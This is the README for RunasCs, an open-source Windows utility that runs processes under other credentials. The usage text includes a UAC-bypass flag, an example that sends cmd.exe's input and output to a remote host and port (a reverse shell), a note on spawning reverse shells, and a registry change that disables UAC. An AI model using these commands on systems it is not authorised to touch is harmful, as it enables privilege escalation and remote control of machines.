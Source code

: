 ### RunasCs

----

*RunasCs* is an utility to run specific processes with different permissions than the user's current logon provides using explicit credentials.
This tool is an improved and open version of windows builtin *runas.exe* that solves some limitations:

* Allows explicit credentials
* Works both if spawned from interactive process and from service process
* Manage properly *DACL* for *Window Stations* and *Desktop* for the creation of the new process
* Uses more reliable create process functions like ``CreateProcessAsUser()`` and ``CreateProcessWithTokenW()`` if the calling process holds the required privileges (automatic detection)
* Allows to specify the logon type, e.g. 8-NetworkCleartext logon (no *UAC* limitations)
* Allows to bypass UAC when an administrator password is known (flag --bypass-uac)
* Allows redirecting *stdin*, *stdout* and *stderr* to a remote host
* It's Open Source :)

*RunasCs* has an automatic detection to determine the best create process function for every contexts.
Based on the process caller token permissions, it will use one of the create process function in the following preferred order:

1. ``CreateProcessAsUserW()``
2. ``CreateProcessWithTokenW()``
3. ``CreateProcessWithLogonW()``


### Requirements

----

.NET Framework >= 2.0


### Usage

----

```console
RunasCs v1.4 - @splinter_code

Usage:
    RunasCs.exe username password cmd [-d domain] [-f create_process_function] [-l logon_type] [-r host:port] [-t process_timeout] [--create-profile] [--bypass-uac]

Description:
    RunasCs is an utility to run specific processes under a different user account
    by specifying explicit credentials. In contrast to the default runas.exe command
    it supports different logon types and crateProcess functions to be used, depending
    on your current permissions. Furthermore it allows input/output redirection (even
    to remote hosts) and you can specify the password directly on the command line.

Positional arguments:
    username                username of the user
    password                password of the user
    cmd                     command supported by cmd.exe if process_timeout>0
                            commandline for the process if process_timeout=0
Optional arguments:
    -d, --domain domain
                            domain of the user, if in a domain. 
                            Default: ""
    -f, --function create_process_function
                            CreateProcess function to use. When not specified
                            RunasCs determines an appropriate CreateProcess
                            function automatically according to your privileges.
                            0 - CreateProcessAsUserW
                            1 - CreateProcessWithTokenW
                            2 - CreateProcessWithLogonW
    -l, --logon-type logon_type
                            the logon type for the spawned process.
                            Default: "8" - NetworkCleartext
    -r, --remote host:port
                            redirect stdin, stdout and stderr to a remote host.
                            Using this option sets the process timeout to 0.
    -t, --timeout process_timeout
                            the waiting time (in ms) for the created process.
                            This will halt RunasCs until the spawned process
                            ends and sent the output back to the caller.
                            If you set 0 no output will be retrieved and cmd.exe
                            won't be used to spawn the process.
                            Default: "120000"
    -p, --create-profile
                            if this flag is specified RunasCs will force the
                            creation of the user profile on the machine.
                            This will ensure the process will have the
                            environment variables correctly set.
                            NOTE: this will leave some forensics traces
                            behind creating the user profile directory.
                            Compatible only with -f flags:
                                1 - CreateProcessWithTokenW
                                2 - CreateProcessWithLogonW
    -b, --bypass-uac     
                            if this flag is specified RunasCs will try a UAC
                            bypass to spawn a process without token limitation
                            (not filtered).

Examples:
    Run a command as a specific local user
        RunasCs.exe user1 password1 whoami
    Run a command as a specific domain user and interactive logon type (2)
        RunasCs.exe user1 password1 whoami -d domain -l 2
    Run a background/async process as a specific local user,
        RunasCs.exe user1 password1 "%COMSPEC% powershell -enc..." -t 0
    Redirect stdin, stdout and stderr of the specified command to a remote host
        RunasCs.exe user1 password1 cmd.exe -r 10.10.10.24:4444
    Run a command simulating the /netonly flag of runas.exe 
        RunasCs.exe user1 password1 whoami -d domain -l 9
    Run a command as an Administrator bypassing UAC
        RunasCs.exe adm1 password1 "whoami /priv" --bypass-uac
```

The two processes (calling and called) will communicate through one *pipe* (both for *stdout* and *stderr*).
The default logon type is 8 (*NetworkCleartext*). 

**NetworkCleartext** logon type is the one with widest permissions as it doesn't get filtered by UAC in local tokens and still allows
 authentications over the Network as it stores credentials in the authentication package.

If you set *Interactive* (2) logon type you will face some *UAC* restriction problems.
You can make interactive logon without any restrictions by setting the following regkey to 0 and restart the server:

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\EnableLUA
```

Otherwise, you can try the flag **--bypass-uac** for an attempt in bypassing the token filtered limitation.

By default, the calling process (*RunasCs*) will wait until the end of the execution of the spawned process and will use
``cmd.exe`` to manage *stdout* and *stderr*. If you need to spawn a background or async process, i.e. spawning a reverse shell,
you need to set the parameter ``-t timeout`` to ``0``. In this case the process will be spawned without using ``cmd.exe``
and *RunasCs* won't wait for the end of the execution.

### References

----

* [Potatoes and tokens](https://decoder.cloud/2018/01/13/potato-and-tokens/)
* [Starting an Interactive Client Process in C++](https://docs.microsoft.com/en-us/previous-versions/aa379608(v=vs.85))
* [Creating a Child Process with Redirected Input and Output](https://learn.microsoft.com/en-us/windows/win32/procthread/creating-a-child-process-with-redirected-input-and-output)
* [Interactive Services](https://learn.microsoft.com/en-us/windows/win32/services/interactive-services)
* [What is up with "The application failed to initialize properly (0xc0000142)" error?](https://blogs.msdn.microsoft.com/winsdk/2015/06/03/what-is-up-with-the-application-failed-to-initialize-properly-0xc0000142-error/)
* [Getting an Interactive Service Account Shell](https://www.tiraniddo.dev/2020/02/getting-interactive-service-account.html)
* [Reading Your Way Around UAC (Part 1)](https://www.tiraniddo.dev/2017/05/reading-your-way-around-uac-part-1.html)
* [Reading Your Way Around UAC (Part 2)](https://www.tiraniddo.dev/2017/05/reading-your-way-around-uac-part-2.html)
* [Reading Your Way Around UAC (Part 3)](https://www.tiraniddo.dev/2017/05/reading-your-way-around-uac-part-3.html)
* [Vanara - A set of .NET libraries for Windows implementing PInvoke calls to many native Windows APIs with supporting wrappers](https://github.com/dahall/Vanara)

### Credits

-----

* [@decoder](https://github.com/decoder-it)
* [@qtc-de](https://github.com/qtc-de)
* [@winlogon0](https://twitter.com/winlogon0)
